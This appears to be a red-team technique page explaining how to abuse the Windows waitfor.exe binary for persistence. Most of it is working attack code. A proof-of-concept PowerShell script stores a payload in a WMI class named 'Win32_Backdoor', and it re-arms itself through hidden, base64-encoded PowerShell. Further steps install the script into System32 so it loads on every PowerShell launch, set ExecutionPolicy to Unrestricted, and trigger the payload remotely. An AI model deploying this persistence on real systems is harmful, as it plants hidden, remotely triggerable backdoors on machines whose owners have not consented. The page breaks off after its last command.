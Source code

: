 </br></br>

## Waitfor

Waitfor is a Microsoft binary which is typically used to synchronize computers across a network by sending signals.  The binary is stored in *C:\Windows\System32* folder. Both hosts (sender and receiver) need to be on the same network segment.

```powershell
waitfor badguy && C:\path\to\badguy.exe;
```

You can run this command in endless loop, or using Task Scheduler, or use this PowerShell [script](https://github.com/3gstudent/Waitfor-Persistence) which stores the command in a **WMI** class to enable the wait mode continuously..
#### Example:

```powershell
<#
    A quick POC to use Waitfor.exe to maintain persistence
    Author: 3gstudent @3gstudent
    Learn from:https://twitter.com/danielhbohannon/status/872258924078092288
#>
$StaticClass = New-Object Management.ManagementClass('root\cimv2', $null,$null)
$StaticClass.Name = 'Win32_Backdoor'
$StaticClass.Put()| Out-Null
$StaticClass.Properties.Add('Code' , "cmd /c start C:\path\to\badguy.exe ```&```& taskkill /f /im powershell.exe ```&```& waitfor badguy ```&```& powershell -nop -W Hidden -E JABlAHgAZQBjAD0AKABbAFcAbQBpAEMAbABhAHMAcwBdACAAJwBXAGkAbgAzADIAXwBCAGEAYwBrAGQAbwBvAHIAJwApAC4AUAByAG8AcABlAHIAdABpAGUAcwBbACcAQwBvAGQAZQAnAF0ALgBWAGEAbAB1AGUAOwAgAGkAZQB4ACAAJABlAHgAZQBjAA==")
$StaticClass.Put() | Out-Null
 
$exec=([WmiClass] 'Win32_Backdoor').Properties['Code'].Value;
iex $exec | Out-Null
```
***ADMIN PRIBILEGES NEEDED!!!***
- Once the module is imported it will execute the “_waitfor_” command.
	```powershell
		Import-Module .\Your_Waitfor-Persistence_script.ps1
	```

- Or you can add *Your_Waitfor-Persistence_script.ps1* in *C:\Windows\System32\WindowsPowerShell\v1.0* 
   And with every powershell launch this module will be started too
  ```powershell 
	copy Your_Waitfor-Persistence_script.ps1 C:\Windows\System32\WindowsPowerShell\v1.0\Your_Waitfor-Persistence_script_.ps1
  ```
Also, for this method you need to set **ExecutionPolicy**
  ```powershell
Set-ExecutionPolicy Unrestricted
  ```

Now, with command 
```powershell
waitfor /s target_ip /si badguy
```
